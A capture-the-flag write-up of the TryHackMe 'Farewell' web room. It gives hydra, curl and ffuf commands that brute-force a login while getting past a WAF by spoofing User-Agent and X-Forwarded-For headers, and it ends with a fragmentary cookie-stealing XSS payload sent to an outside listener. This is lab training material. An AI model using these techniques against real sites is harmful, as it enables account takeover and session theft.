







[Farewell](https://tryhackme.com/room/farewell) is a Web challenge hosted on Tryhackme whose focus is on bypassing a Web Application Firewall. Let's change things up by immediately going into the website. The description tells us to check out `http://farewell.thm/status.php`. Doing so shows us the current status of the "Admin page"



Going one page up sends us to a login page telling us to send one final farewell message before the server is decommissioned.



Most notable discovery are the users: adam, deliver11, nora. Also, the admin page can be reached via `/admin.php`. Further enumeration shows that a `phpinfo` page can be reached via `/info.php`. Next, I decided to check out the login process. We first send a basic POST request to `/auth.php` with the parameters username and password. I saw that the server responds to authentication attempts via JSON and even gives out hints. (only on valid users tho)



testing on the three gave me:

- adam : "favorite pet + 2"
- deliver11: "capital of japan followed by four digits"
- nora: "lucky number 789"

"deliver11" seems pretty verbose. I'll try to bruteforce it using hydra. I will create every possible four digits using the `seq` command in linux via `seq -w 9999`. I went on to attempt a bruteforce with both `tokyo` and `Tokyo`, but none of them returned a match. Remember how I said this machine is about bypassing a WAF? this is where that comes into play.

```
$ curl http://farewell.thm/auth.php --data 'username=deliver11&password=tokyo1911'
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>403 Forbidden</title>
...
```

When I tried to do the same request via cURL, I got a 403 error telling me that the WAF is active. but copying the request from burpsuite via "copy as curl command (bash)" I was able to get a proper response. Through trial and error, I eventually found out that the WAF determines whether or not a client is legitimate via the 'User-agent' header.

```
$ curl http://farewell.thm/auth.php -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0' --data 'username=deliver11&password=tokyo1911'
{"error":"auth_failed","user":{"name":"deliver11","last_password_change":"2025-09-10 11:00:00","password_hint":"Capital of Japan followed by 4 digits"}}
```

I will continue to use hydra to bruteforce `deliver11`'s password. This time I will set the `User-agent` header like so:

```
$ hydra -l deliver11 -P fourdigits.txt -I farewell.thm http-post-form "/auth.php:username=^USER^&password=tokyo^PASS^:auth_failed:H=User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0'"
```

Executing this command still yielded no result. When I went to login again, I was presented with this:



Safe to say this WAF also implements some form of rate-limiting. I will attempt to counteract this by throttling hydra down to 4 attempts per second instead of the usual 16 by passing `-t 4`. However, that still wasn't enough. neither was delaying requests, limiting to one task instead of four, ignoring dropped attempts, etc.

Now this whole time, whenever I was slapped wit a rate-limit, I simply went to the `status.php` page and restarted the server. But then I remembered that the `X-forwarded-for` header was a thing. from [Mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Forwarded-For): 
```
The HTTP X-Forwarded-For (XFF) request header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through a proxy server.
```

Therefore we could probably use it to try and trick the server into thinking that each individual request is coming from seperate clients, effectively bypassing the rate-limit.

To do this, I simply used the `prips` tools provided in the kali repo and generated a bunch of ip's from 127.0.0.1 to 127.0.255.255. Unfortunately, I had to leave hydra as it didn't support one-to-one mappings (Atleast I think it doesn't). I'll continue by using `ffuf`:

```
ffuf -u http://farewell.thm -w fourdigits.txt:FUZZ,ips:IPS  -H "User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/140.0" -H "X-Forwarded-For: IPS" -X POST --data "username=deliver11&password=TokyoFUZZ" -mode pitchfork -fw 660
```

I was _eventually_ able to get a hit...Just not with ffuf. For some reason, ffuf kept returning the same response regardless of whether or not the supplied info was correct. I ended up relying on wfuzz instead. How I did it however will be an exercise for the reader :)

Regardless



Flag is on the bottom of the page. Something that quickly caught my eyes was the message.



See the Status? An admin probably had to approve this message by hand. Possibility of XSS? I'll see if i can exploit this. I'll use the following payload:

```
:8000/?'+document.cookies;">
```



The WAF strikes again. Some testing indicates that the site has a blacklist for certain keywords like: cookie, `<script>`, fetch, etc.

Not all keywords are blocked, of course. For example, the `<audio>` tag isn't blocked and neither are external URLs.